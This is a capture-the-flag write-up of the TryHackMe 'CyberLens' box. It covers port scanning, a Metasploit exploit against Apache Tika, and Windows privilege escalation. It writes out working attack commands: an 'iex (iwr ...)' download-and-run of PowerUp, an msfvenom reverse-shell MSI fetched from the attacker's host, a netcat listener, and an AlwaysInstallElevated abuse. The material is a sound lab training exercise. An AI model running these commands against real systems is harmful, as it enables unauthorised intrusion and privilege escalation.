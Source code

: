 ```yaml
---
layout: post
title: CyberLens writeup (TryHackMe)
author: wizarddos
category: writeups
excerpt_separator: <!--more-->
---
```


Another day, another challenge. This time is easy one.
I don't know what to expect. I only know that there will be a webserver

Let's try it

It comes from [TryHackMe](https://tryhackme.com/r/room/cyberlensp6)

<!--more-->
First, add IP to `/etc/hosts`

I'll also add hostname to the enviromental variable

```
$ sudo echo 'MACHINE_IP cyberlens.thm' >> /etc/hosts
$ export HOST="cyberlens.thm"
```

Then, time for port scanning
```
$ rustscan -a $IP -- -sC -sV
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
0day was here ♥

[~] The config file is expected to be at "/home/rustscan/.rustscan.toml"
[~] File limit higher than batch size. Can increase speed by increasing batch size '-b 1048476'.
Open 10.10.138.96:80
Open 10.10.138.96:135
Open 10.10.138.96:139
Open 10.10.138.96:445
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} {{ip}} -sC -sV" on ip 10.10.138.96
Depending on the complexity of the script, results may take some time to appear.
[~] Starting Nmap 7.80 ( https://nmap.org ) at 2024-05-18 20:51 UTC
[...]
PORT    STATE SERVICE       REASON  VERSION
80/tcp  open  http          syn-ack Apache httpd 2.4.57 ((Win64))
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.57 (Win64)
|_http-title: CyberLens: Unveiling the Hidden Matrix
135/tcp open  msrpc         syn-ack Microsoft Windows RPC
139/tcp open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds? syn-ack
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 0s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 33916/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 58379/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 23678/udp): CLEAN (Timeout)
|   Check 4 (port 10426/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-05-18T20:51:21
|_  start_date: N/A
```

It looks like windows machine - it'll be harder for me as I'm not acustomed to it. 

I couldn't get anything from other ports, so let's get to work on port `80`

### Website enumeration

JS on main page unveils another port
```js
fetch("http://cyberlens.thm:61777/meta", {
            method: "PUT",
            body: fileData,
            headers: {
              "Accept": "application/json",
              "Content-Type": "application/octet-stream"
            }
          })
```

Scanning it, gives us more info
```
$ nmap -sC -sV $IP -p61777 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-18 23:02 CEST
Nmap scan report for cyberlens.thm (10.10.138.96)
Host is up (0.074s latency).

PORT      STATE SERVICE VERSION
61777/tcp open  http    Jetty 8.y.z-SNAPSHOT
|_http-title: Welcome to the Apache Tika 1.17 Server
|_http-cors: HEAD GET
|_http-server-header: Jetty(8.y.z-SNAPSHOT)
| http-methods: 
|_  Potentially risky methods: PUT
```

It runs Apache Tika - from my research it has an exploit in metasploit.

Launch it

### Exploiting

```
$ msfconsole
```

There's only one module for this service 
```
msf6 > use exploit/windows/http/apache_tika_jp2_jscript
```

We need to change `RHOSTS`, `RPORT` and `LHOST`
```
msf6 > set RHOSTS MACHINE_IP
msf6 > set RPORT 61777
msf6 > set LHOST YOUR_THM_IP
```

Then, we can run it
```
msf6 > exploit
```

Now, I've got a meterpreter shell - get user flag

I've spawned myself a typical CMD shell
```
meterpreter > shell
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
C:\Windows\system32>cd C:\Users\cyberlens\Desktop
C:\Users\CyberLens\Desktop>type user.txt
[REDACTED]
```

We've got a flag! Time for the hard part

### Privilege escalation

Let's fire up PowerShell
```
> powershell
```

Today, [PowerUp](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1) became my best friend
```
PS > iex (iwr -usebasicparsing http://Your IP:8000/PowerUp.ps1)
```
And in kali
```
$ python3 -m http.server 8000
```

Then I run it and
```
PS > Invoke-allchecks

[*] Checking %PATH% for potentially hijackable .dll locations...


HijackablePath : C:\Users\CyberLens\AppData\Local\Microsoft\WindowsApps\
AbuseFunction  : Write-HijackDll -OutputFile 'C:\Users\CyberLens\AppData\Local\Microsoft\WindowsApps\\wlbsctrl.dll' 
                 -Command '...'

[*] Checking for AlwaysInstallElevated registry key...


OutputFile    : 
AbuseFunction : Write-UserAddMSI
```

We see that there is a misconfigured registry key, that allows us to install MSI files as Admin.
[Time to exploit it](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#powerup)

First, create a payload on kali and set up python http server
```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=1337 -f msi > shell.msi
$ python3 -m http.server 80
```
Then on windows I've downloaded that shell to Desktop
```
> wget http://10.9.3.108/shell.msi -o shell.msi
```

After setting up netcat listener
```
$ nc -lvnp 1337
```

I've executed malicious msi

```
> msiexec /quiet /qn /i shell.msi
```

And boom, we have shell. Let's grab the flag

```
> type C:\Users\Administrator\Desktop\root.txt
[REDACTED]
```
And that's it. Machine pwned

## Conclusion

I don't have too much experience with windows machines. While initial access was fairly easy, privesc was a little nightmare

I think I've spent like 3H on this box. Still kinda fun

I've discovered a new service, practices my metasploit usage and made learned windows privilege escalation method.

I really need to get things sorted out in windows privesc. I suck at it, not gonna lie.

Btw, check out my [normal blog](https://wizarddos.github.io/blog), where I post about overall IT and Programming

That's it - see you next time
